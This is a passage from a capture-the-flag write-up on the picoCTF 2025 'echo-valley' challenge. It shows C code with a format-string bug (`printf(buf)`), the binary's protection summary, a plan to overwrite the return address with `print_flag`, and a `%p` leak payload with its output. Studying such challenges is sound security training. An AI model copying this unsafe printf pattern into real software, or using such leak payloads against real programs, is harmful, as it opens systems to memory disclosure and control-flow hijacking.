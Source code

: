 ```c
    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

We have a vulnerable call to `printf` that directly uses a buffer (i.e. `printf(buf);`) and it's in a loop meaning we can use it multiple times. Checking the protections with `pwntools` reveals that pretty much everything is enabled.

```shell
[*] '/home/ctf/picoctf-2025/pwn/echo-valley/valley'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

Which means that our best path to securing the flag is to leak the address of the return value on the stack and replace it with the address of the `print_flag` function.

Using a sample payload I found some interesting addresses.

```shell
Welcome to the Echo Valley, Try Shouting:
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
You heard in the distance: 0x5555555560c1|(nil)|0x7ffff7f9ca00|(nil)|0x5555555596b0|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0xa7c70257c|(nil)|(nil)|0xf7a5753e67c48200|0x7fffffffe2d0|0x555555555413|0x1|0x7ffff7dafd90|(nil)|0x555555555401|0x100000000|0x7fffffffe3e8|(nil)|
```
